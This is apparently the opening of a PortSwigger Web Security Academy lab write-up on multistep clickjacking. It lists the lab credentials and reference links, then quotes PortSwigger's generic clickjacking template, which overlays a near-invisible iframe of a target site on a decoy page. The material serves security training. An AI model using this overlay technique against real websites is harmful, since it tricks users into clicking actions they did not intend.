 You can log in to the account yourself using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/csrf

- https://portswigger.net/web-security/clickjacking 

---------------------------------------------

Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
